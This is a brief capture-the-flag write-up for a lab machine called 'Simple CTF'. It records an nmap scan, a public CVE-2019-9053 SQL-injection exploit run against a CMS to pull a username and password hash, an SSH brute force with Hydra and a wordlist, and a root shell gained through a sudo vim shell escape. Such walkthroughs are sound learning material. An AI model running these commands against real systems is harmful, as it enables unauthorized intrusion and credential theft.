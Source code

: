 # Simple CTF

IP = `10.10.21.247`

### Nmap
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

```


### Exploit CVE-2019-9053
```
git clone https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3
git clone https://github.com/e-renna/CVE-2019-9053

install requests, termcolor

python3 csm_made_simple_injection.py -u http://10.10.19.252/simple --crack -w /usr/share/seclists/Passwords/common_corporate_passwords.lst
```

```
[+] Salt for password found: 1d16
[+] Username found: mitch
[+] Email found: admin@admin.p
[+] Password found: 0c01f4468bd75d7a84c1
```

`echo "0c01f4468bd75d7a84c1:1d16" > hash.txt`

exploi isnt working properly, but we got a username 'mitch'

### Brute-force

```
$ hydra -l mitch -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.21.247:2222

[2222][ssh] host: 10.10.21.247   login: mitch   password: secret
```

user.txt
```
G00d j0b, keep up!
```

### Privilgege Escalation

```
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

```
mitch@Machine:~$ sudo vim -c ':!/bin/sh'

#
```

Got root!

root.txt
```
W3ll d0n3. You made it!
```
